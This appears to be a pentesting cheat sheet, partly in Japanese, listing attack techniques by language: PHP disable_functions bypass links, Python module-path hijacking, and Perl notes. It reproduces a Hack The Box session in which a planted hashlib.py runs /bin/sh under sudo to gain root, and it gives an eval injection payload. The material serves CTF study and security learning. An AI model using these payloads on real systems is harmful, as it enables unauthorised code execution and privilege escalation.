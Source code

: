 # language
----

## PHP
* [dangerous functions](https://gist.github.com/mccabe615/b0907514d34b2de088c4996933ea1720)
* [ RCE in PHP or how to bypass disable_functions in PHP installations](https://lab.wallarm.com/rce-in-php-or-how-to-bypass-disable_functions-in-php-installations-6ccdbf4f52bb/)
* [Bypassing PHP disable_functions with Chankro](https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html)

## Python
* モジュールはsys.pathに従って読み込まれる
* 実行ファイルと同改装のディレクトリに、実行ファイルが読み込むモジュールと同名のモジュールが存在する場合、sys.pathによっては同階層のモジュールが優先して読み込まれる
* またPYTHONPATH環境変数は、通常同階層のモジュールの次に読み込まれる
* sys.pathもしくはPYTHONPATH を利用し、権限昇格が可能な場合が存在する
* Htb: Stratosphere
   ```console
   richard@stratosphere:~$ python -c 'import sys; print(sys.path)'
   ['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
   richard@stratosphere:~$ PYTHONPATH='/hoo' python -c 'import sys; print(sys.path)'
   ['', '/hoo', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
   richard@stratosphere:~$ printf 'import os\nos.system("/bin/sh")\n' > hashlib.py
   richard@stratosphere:~$ sudo /usr/bin/python2.7 /home/richard/test.py
   # id
   uid=0(root) gid=0(root) groups=0(root)
   ```
   
* eval関数やinput関数に任意の文字列を入力可能な場合、次のペイロードが使用可能
  ```python
  __import__("os").system('COMMAND')
  ```
  
* [Hacking Python Applications](https://medium.com/swlh/hacking-python-applications-5d4cd541b3f1)

## Perl
* [Re: The Perl Jam 2](https://kentfredric.github.io/blog/tag/the-perl-jam-2/)

